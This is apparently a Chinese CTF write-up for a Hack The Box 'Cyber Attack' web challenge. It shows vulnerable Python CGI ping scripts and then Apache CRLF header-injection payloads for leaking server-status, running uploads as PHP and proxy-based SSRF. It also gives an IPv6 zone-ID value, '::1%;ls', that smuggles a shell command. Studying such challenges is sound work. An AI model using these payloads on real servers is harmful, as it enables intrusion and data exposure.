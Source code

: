 # web


### Cyber Attack
python cgi下就俩个接口，一个限制127.0.0.1

```PYTHON
import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
    #存在crlf注入
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()

```

一个正则，一个ip_address感觉都限制死了,感觉ssrf也没用。。

apache配置.php文件解析，能否让cgi解析为php？

```
AddType application/x-httpd-php .php
```

`/index.php/../cgi-bin/attack-domain?name=<?php phpinfo();&target=<?php phpinfo();`
还是不行

---
https://blog.orange.tw/posts/2024-08-confusion-attacks-ch/#%F0%9F%94%A5-3-Handler-Confusion

apache配置文件里的add type配合crlf攻击可以实现ssrf
原因是apache使用r->content-type时，没有辨别语义，这个值可以是请求阶段设置的，也可以是响应头的值
通过cgi的本地重定向响应
即通过控制响应content-type头，调用apache内部handler

敏感信息
```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a
Content-Type:server-status %0d%0a
%0d%0a
```


```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/uploads/avatar.webp %0d%0a
Content-Type:application/x-httpd-php %0d%0a
%0d%0a
```

ssrf
```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:http://example.com/%3F %0d%0a
%0d%0a
```

最后是ip_address的绕过

```python
#<zone_id>是一个附加信息，表示特定的网络接口或作用域。它用%符号后跟区域标识符来表示，例如fe80::a%en1，其中en1是网络接口的名称。
from ipaddress import ip_address

print(ip_address("::1%;ls"))
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*
https://github.com/hackthebox/cyber-apocalypse-2025



2025-03-22   01:34